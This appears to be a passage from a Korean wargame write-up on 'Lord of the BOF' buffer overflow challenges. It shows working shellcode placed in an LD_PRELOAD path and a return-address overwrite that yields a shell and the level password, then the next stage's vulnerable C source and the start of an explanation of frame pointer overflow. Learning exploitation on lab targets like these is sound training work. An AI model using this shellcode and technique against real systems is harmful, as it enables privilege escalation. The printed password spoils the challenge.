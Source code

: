 

얍얍얍!

```shell
[skeleton@localhost skeleton]$ export LD_PRELOAD="/tmp/`python -c 'print "\x90"*100 + "\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81" + "\x90"*20'`.so"

[skeleton@localhost skeleton]$ ./golem `python -c 'print "A"*44+"\xc0\xf5\xff\xbf"'`

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAuÿ¿
bash$ id
uid=510(skeleton) gid=510(skeleton) euid=511(golem) egid=511(golem) groups=510(skeleton)
bash$ my-pass
euid = 511
cup of coffee
```





## STAGE 12 : golem -> darknight

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkknight
        - FPO
*/

#include <stdio.h>
#include <stdlib.h>

void problem_child(char *src)
{
	char buffer[40];
	strncpy(buffer, src, 41);
	printf("%s\n", buffer);
}

main(int argc, char *argv[])
{
	if(argc<2){
		printf("argv error\n");
		exit(0);
	}

	problem_child(argv[1]);
}
```

이제까지와는 다르게 ebp의 한 바이트만 덮을 수 있다. 문제 컨셉으로 알려준 FPO(Frame Pointer Overflow)는 메인 함수 내부에서 서브 함수가 불릴 때, 서브 함수의 ebp를 덮을 수 있으면 아주 유용한 exploit 기법이 된다. `leave; ret`는 `mov esp, ebp; pop ebp; pop eip`처럼 동작하는데, 서브 함수에서 FPO가 발생할 때, 즉 함수 에필로그 동작을 두 번 일으킬 수 있으면 eip 조작이 가능하다.
